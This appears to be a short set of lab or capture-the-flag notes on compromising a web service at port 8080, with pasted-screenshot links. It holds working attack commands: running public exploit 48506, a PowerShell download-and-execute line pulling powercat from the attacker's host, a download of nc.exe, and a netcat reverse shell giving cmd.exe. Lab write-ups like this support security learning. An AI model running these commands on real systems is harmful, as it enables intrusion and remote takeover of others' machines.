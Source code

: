 Using the public exploit 

- searchsploit
```bash
searchsploit -m 48506
```
- Run the python script against the base URL
```bash
python2 48506.py http://10.10.10.198:8080/
```
![[Pasted image 20240908110954.png]]

```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.7/powercat.ps1');powercat -c 10.10.14.7 -p 443 -e powershell"
```

Unfortunately, this is a webshell and not a full reverse shell

- Transferred over nc.exe to base folder
![[Pasted image 20240908120310.png]]
```powershell
powershell.exe -c "iwr -uri http://10.10.14.7/nc.exe -Outfile nc.exe"
```
- Confirm that file has been uploaded
![[Pasted image 20240908120439.png]]
- Got a reverse shell using
```powershell
nc.exe 10.10.14.7 443 -e cmd.exe
```